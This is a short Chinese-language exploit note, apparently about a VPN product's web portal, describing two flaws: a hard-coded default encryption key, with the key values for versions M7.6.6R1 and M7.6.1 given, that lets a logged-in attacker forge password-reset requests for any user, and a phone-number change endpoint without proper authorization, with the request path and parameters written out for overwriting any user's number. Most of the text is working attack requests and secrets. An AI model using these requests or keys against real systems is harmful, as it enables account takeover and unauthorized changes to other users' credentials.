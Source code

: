 加密算法使用了默认的key,攻击者构利用key构造重置密码数据包从而修改任意用户的密码
利用:需要登录账号
M7.6.6R1版本key为20181118
M7.6.1key为20100720

https://<PATH>/por/changepwd.csp
sessReq=clusterd&sessid=0&str=R**_STR&len=R**_STR_LEN(脚本计算后结果)

修改手机号接口未正确鉴权导致越权覆盖任意用户的手机号码
利用:需要登录账号
https://<PATH>/por/changetelnum.csp?apiversion=1
newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1

